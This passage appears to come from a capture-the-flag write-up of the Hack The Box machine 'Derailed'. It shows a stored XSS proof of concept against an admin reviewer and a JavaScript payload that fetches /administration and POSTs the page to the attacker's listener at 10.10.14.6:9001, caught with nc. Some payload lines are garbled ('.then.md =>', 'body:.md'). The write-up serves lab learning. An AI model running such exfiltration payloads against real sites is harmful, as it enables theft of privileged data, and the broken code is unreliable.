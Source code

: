 #### Remote POC

The plan is to submit this ticket to the admin for review. Getting a
popup on their browser isn't useful (and is counterproductive in the
real world). I'll update `xss.js` to just an empty file, and go through
the process of reporting on of the posts made by this latest user. A few
seconds later, there's a hit on the webserver from Derailed:



    10.10.11.190 - - [19/Jul/2023 18:43:09] "GET /xss.js HTTP/1.1" 200 -



This shows that the user on Derailed viewed the XSS note and it worked,
meaning that I can run code in that user's browser.

## Shell as rails

### Enumerating /administration

#### Fetch

I'm interested in seeing what `/administration` looks like. I'll write a
JavaScript payload that will fetch that and exfil it to me:



    fetch('http://derailed.htb:3000/administration')
      .then(resp => resp.text())
      .then.md => { 
        fetch('http://10.10.14.6:9001/exfil', {
          method: "POST",
          body:.md,
        })
      });



I'll save this resubmit the note for review. I'll start `nc` on port
9001 to capture the POST with the page in the body. After a minute,
there's a hit:



    oxdf@hacky$ nc -lvnp 9001 > administration.md
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.190 32934



One thing to note that code me a bunch of time - The remote `fetch`
won't work on `http://10.10.11.190:3000` or `http://127.0.0.1:3000`. It
has to go for `derailed.htb`. This is due to same origin policy. It will
allow the request just like above, but then exit with an error just like
I saw above. That same error will likely occur after the POST to my
server, but at that point I don't care, as I already have the exfil.

#### /administration
